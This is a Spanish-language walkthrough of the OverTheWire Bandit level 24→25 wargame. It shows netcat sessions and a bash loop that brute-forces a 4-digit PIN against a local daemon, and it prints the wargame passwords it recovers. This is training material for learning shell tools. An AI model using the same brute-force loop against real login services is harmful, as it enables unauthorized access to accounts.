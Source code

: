 ## Bandit Level 24→ Level 25

## Objetivo

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel

```
Usuario: bandit24
Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Solución
```
Bash
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,
separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v
Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single
line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.
```
## Notas adicionales

| Comando | Descripción |
|-----------|-----------|
| nc | permite acceder a puertos TCP o UDP de la propia máquina o de otras máquinas remotas|
| -nc -v | se usa para mostrar información acerca de la conexión|
| for | es un ciclo que repite algo hasta que una condicion ya no sea correcta|
| echo | se encarga de escribir un string dado en salida estandar|
| grep | busca patrones en un archivo|
|- grep -v | no muestra un cierto patron en un archivo|
## Referencias